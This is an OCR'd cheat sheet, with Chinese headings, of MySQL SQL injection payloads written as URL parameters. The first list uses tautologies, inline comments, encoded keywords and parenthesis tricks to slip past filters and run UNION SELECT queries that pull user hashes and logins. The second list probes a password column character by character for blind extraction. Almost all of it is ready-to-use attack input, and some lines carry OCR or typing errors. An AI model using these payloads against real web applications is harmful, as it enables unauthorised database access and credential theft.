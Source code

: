 ##### Mysql

    ?id=ord('a')=97 
    
    ?id=123+AND+1=1 
    
    ?id=123+&&+1=1 
    
    ?id='=’
    
    ?id=123+AND+md5(‘a’)!= md5(‘A’) 
    
    ?id=123+and+len(@@version)>1 
    
    ?id=1’||1=’1 
    
    ?id=123‘+like+'123 
    
    ?id=123'+not+like+'1234 
    
    ?id='aaa'<>'bbb'
    
    ?id=123/*! union all select version() */-- 
    
    ?id=123/*!or*/1=1; 
    
    ?id=(1)union(((((((select(1), hex(hash)from(users))))))))       ---7个+8个括号 
    
    ?id=1+union+(select’1‘,concat(login,hash)from+users) 
    
    ?id=1+%55nion(%53elect 1, 2, 3)-- -
    
    ?id=1/*!000000union*/select%0d%0a/*asdas/asd asasd*/version() 
    
    ?id=1 union(select%0aall{x users}from{x ddd})
    
        

* * *

**Mysql常用函数**-
字符串处理：

    ?key=user' OR mid(password,1,1)='*'
    
    ?key=user' OR mid(password,1,1)=0x2a
    
    ?key=user' OR mid(password,1,1)=unhex('2a') 
    
    ?key=user' OR mid(password,1,1) regexp '[*]'
    
    ?key=user' OR mid(password,1,1) like '*' 
    
    ?key=user' OR mid(password,1,1) rlike '[*]'
    
    ?key=user' OR ord(mid(password,1,1))=42 
    
    ?key=user' OR ascii(mid(password,1,1))=42 
    
    ?key=user' OR find_in_set('2a',hex(mid(password,1,1)))=1
    
    ?key=user' OR position(0x2a in password)=1
    
    ?key=user' OR locate(ox2a,password)=1
    
        